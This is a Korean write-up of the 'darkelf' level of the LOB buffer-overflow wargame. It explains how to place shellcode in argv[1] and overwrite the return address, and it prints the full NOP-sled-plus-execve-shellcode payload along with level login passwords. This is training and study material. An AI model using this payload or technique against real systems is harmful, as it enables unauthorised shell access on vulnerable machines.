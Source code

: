 # [LOB] darkelf Write-up

![](./picture/darkelf_1.JPG)

```
login : wolfman
Password : love eyuna
```

위의 계정으로 로그인하면 된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/darkelf_2.JPG)

환경변수, 버퍼를 초기화하고, argv[1]의 길이를 체크하기 때문에 RET 주소 뒤에 쉘코드를 넣는 방법을 사용할 수 없다. 하지만 버퍼만 초기화하고, argv[1]은 초기화하지 않는다. 따라서 argv[1] 앞 쪽, 즉 SFP 앞부분에 쉘코드를 넣고 리턴주소를 argv[1]의 시작 주소로 넣어주면 문제가 풀린다.

 ![](./picture/darkelf_3.JPG)

리턴할 때 오류가 생겨 core dump 가 발생했기 때문에 esp는 RET 아래(argc)를 가리키고 있을 것이다. 
 esp를 확인해보면 strcpy() 함수 때문에 0(NULL) 값으로 덮어씌워진 argc가 있고, 그 다음에 `0xbffffb24`가 argv 주소이다.  
 해당 주소로 가면 순서대로 argv[0], argv[1]이 있다. 

 ![](./picture/darkelf_4.JPG)

 `0xbffffc25`가 argv[1]의 주소이다. 인자로 넣어준 값들이 들어간 것을 확인해볼 수 있다.

```
./darkelf `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x25\xfc\xff\xbf"'`
```

페이로드는 NOP(19byte) + 쉘코드(25byte) + RET(argv[1]의 주소 4byte)로 작성하면 된다.

 ![](./picture/darkelf_5.JPG)

쉘을 땄고, 비밀번호는 **kernel crashed** 이다.

